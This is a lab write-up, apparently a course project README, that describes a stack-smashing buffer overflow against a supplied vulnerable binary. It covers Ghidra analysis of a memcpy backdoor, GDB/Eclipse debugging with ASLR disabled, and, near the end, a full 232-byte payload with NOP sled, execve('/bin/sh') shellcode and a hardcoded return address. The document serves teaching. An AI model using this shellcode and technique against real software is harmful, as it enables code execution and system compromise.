# Buffer Overflow Attack

Performing Buffer Overflow attack using stack smashing approach to obtain the shell. Given a C compiled vulnerable software, with the help of reverse engineering and debugging the attack had to be conducted to obtain the shell.

## Prepare Ubuntu VM
Follow these steps to setup the VM and import the binary:
1. Install the prerequisite libncurses5-dev
        
        apt-get install libncurses5-dev
2. Make the adevture-qnx folder 

        mkdir /usr/share/adventure-qnx/
3. Copy the adven[1-4].txt files from the zip file into /usr/share/adventure-qnx/

        sudo cp ./advent*.txt  /usr/share/adventure-qnx/
4. Try running the binary file (if the file is not executable change the mode).

        ./adventurev3_stripped
    

## Reverse Engineer Using Ghidra
Follow these steps to reverse engineer the binary using Ghidra:
1. Import the 64-bit Linux Binary into Ghidra ()

    
2. After Ghidra analyses the binary, by going through the SymbolTree a vulnerable memory function is found that this software uses. This function is found to be "memcpy", a vulnerable C function that is being used by this application.

    
3. Using this knowledge the vulnerable function call that calls this function can be observed and also a Functon Call Graph can be plotted correspondingly.

    The vulnerable function is found as:

    

    The Functon Call Graph is obtained as:

    

4. By going through the Function Call Graph it can identified that there is backdoor function that calls out this newly identified vulnerable function. 

    

    It is seen that the backdoor function can be accessed by the easter egg code "unlock easteregg". This can be used to access the vulnerable function and exploit the memcpy function call.

## Debugging using Eclipse

Initially we have to setup the debugging environment:
1. Set GDB command file `~/.gdbinit` with the following content:

        set disassembly-flavor intel
        set disable-randomization on
2. Set Address Space Randomization off with the following command: 

        sudo sysctl kernel.randomize_va_space=0
3. Eclipse is used for debugging, initially a C/C++ project (C Managed and Linux GCC toolchain) is created and the binary file along with the associated text files are copied. 

4. Now the remote debug configurations for the project is set. This is done by providing the application path in the debug configurations.

    

    The location of the GDB command file is also specified as `~/.gdbinit`:

    

5. Upon debugging the dissasembly can be viewed. The debugger can be paused to analyze the disassembly. 

    

6. The easteregg code `unlock easteregg` that was found by reverse engineering can be used to access the vulnerable function. A break point was placed where the `memcpy` function is being called.

    

7. Use instruction stepping mode to analyze the memory for the register `$rbp`  after providing inputs for the vulnerable function. Initially a small length of `32` is provided as the first input.

    

    Correspongingly input of 32 `\x12` is provided for argument2. This input can be seen in the memory browser of `$rbp`.

    

8. This knowledge can be used to construct a string of a particular length that can crash the application. By providing the input for length as `300` for argument1 and as 300 `\x90` for argument2, it is seen that the program crashes.

    

    

9. It is observed that the $rbp points to the address "0x00007FFFFFFFDEF0" from the Registers view and the local variables are written from the address "0x00007FFFFFFFDD18" from the stack frame.

    

10. With this knowledge a shellcode can be constructed, the C code stacksmashexploit.c can be used or a hexadecimal string consisting of shellcode in the middle and the return address of the shellcode present at the end should be provided. 

    The format will be similar to \<NOP sled\> \<ShellCode\>\<more NOPs\> \<return address of shellcode\> \<valid return address\>. The NOPs are placed such that the $rbp register will point towards the shellcode.

    Using this knowledge following string of length 232 was constructed: 

    \x90\x90\x90\x90\x90\x90\x90\x90\x90\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\x48\x31\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\x48\x89\xd7\xb0\x3c\x0f\x05\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x18\xDD\xFF\xFF\xFF\x7F\x00\x00\x18\xDD\xFF\xFF\xFF\x7F\x00\x00

    Here the return adddress is provided as the beginning of the stack which is `0x00007FFFFFFFDD18` where the shellcode is placed after a few NOPs.
    
    Providing 232 and this string as the input for the arguments we will able to obtain the shell as shown below:

